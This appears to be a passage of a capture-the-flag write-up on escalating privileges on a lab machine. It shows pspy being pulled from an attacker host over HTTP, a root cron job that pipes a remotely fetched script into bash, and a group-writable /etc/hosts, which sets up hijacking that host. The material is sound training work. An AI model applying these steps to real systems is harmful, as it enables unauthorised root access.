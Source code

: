 strange pwfeedback variable 


```
cat /var/log/up.log
There are 39842 folder and files in TheCastleApp in - - - - > Fri Nov 22 06:56:01 EST 2024.
There are 39842 folder and files in TheCastleApp in - - - - > Fri Nov 22 06:57:02 EST 2024.
There are 39842 folder and files in TheCastleApp in - - - - > Fri Nov 22 06:58:01 EST 2024.
There are 39842 folder and files in TheCastleApp in - - - - > Fri Nov 22 06:59:01 EST 2024.

```

stranges cron job

```
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
```


pspy

getting it on the system

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy
```

```
python -m http.server 8000
```

```
wget http://10.6.24.127:8000/pspy
chmod 777 pspy
```

after waiting about a minute we get some activity

```
2024/11/22 07:03:01 CMD: UID=0     PID=18433  | bash 
2024/11/22 07:03:01 CMD: UID=0     PID=18432  | curl mkingdom.thm:85/app/castle/application/counter.sh 
2024/11/22 07:03:01 CMD: UID=0     PID=18431  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
2024/11/22 07:03:01 CMD: UID=0     PID=18430  | CRON 
2024/11/22 07:03:01 CMD: UID=0     PID=18435  | bash 
2024/11/22 07:03:01 CMD: UID=0     PID=18437  | wc -l 
2024/11/22 07:03:01 CMD: UID=0     PID=18436  | ls -laR /var/www/html/app/castle/ 
2024/11/22 07:03:01 CMD: UID=0     PID=18439  |
```

the cronjob downloads a bash script from "mkingdom.thm:85", runs it, then outputs the results to a log file.

we can't modify the script, nor the cronjob

```
ls -la /etc/hosts
```

```
-rw-rw-r-- 1 root mario 342 Jan 26  2024 /etc/hosts
```
